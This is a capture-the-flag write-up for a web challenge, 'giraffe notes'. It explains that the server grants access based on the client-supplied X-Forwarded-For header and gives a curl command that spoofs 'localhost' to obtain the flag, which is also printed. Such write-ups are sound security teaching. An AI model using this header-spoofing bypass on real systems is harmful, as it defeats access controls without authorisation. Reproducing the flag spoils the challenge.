 # giraffe notes

## Description

I bet you can't access my notes on giraffes!

http://chal.competitivecyber.club:8081

**Flag format: CACI{.*}**

Author: [CACI](https://www.caci.com)

## Files

* [index.php](index.php)

## Solution

In this challenge, the server determines access permissions based on client-provided information, specifically through the `X-Forwarded-For` HTTP header. Depending on whether the request is "allowed," the server will display one of two web pages: one containing the flag and another without it.

A request is considered "allowed" if it meets the following criteria:
- The `X-Forwarded-For` HTTP header must be defined.
- The value of this header must match one of the allowed IP addresses: `localhost` or `127.0.0.1`.

As a client, we can craft an HTTP request with the `X-Forwarded-For` header set to either `localhost` or `127.0.0.1`. This can be done using the following `curl` command:

```bash
curl http://chal.competitivecyber.club:8081 -H 'X-Forwarded-For: localhost'
```

Sending this request causes the server to display the web page with the flag.

## Flag

`CACI{1_lik3_g1raff3s_4_l0t}``
